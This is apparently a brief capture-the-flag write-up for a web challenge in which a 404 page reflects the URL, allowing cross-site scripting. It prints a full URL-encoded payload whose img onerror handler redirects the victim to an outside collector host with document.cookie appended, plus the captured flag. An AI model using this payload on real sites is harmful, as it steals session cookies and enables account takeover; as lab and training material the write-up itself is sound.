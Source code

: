 The 404 page for the site took the url and put it pon the page so you can perform XSS using that

* Using script tags causes the app to hang
* Using img with onerror=fetch loads but the background driver doesnt run it

Final solution was to use onerror=location.replace
```
http://127.0.0.1:1337/%3Cimg%20src%3D1%20onerror%3Dlocation%2Ereplace%28%22https%3A%2F%2Fen8bp1gmewv3v01%2Em%2Epipedream%2Enet%3F%22%2Bdocument%2Ecookie%29%3E
```

CHTB{th1s_1s_my_bug_r3p0rt}
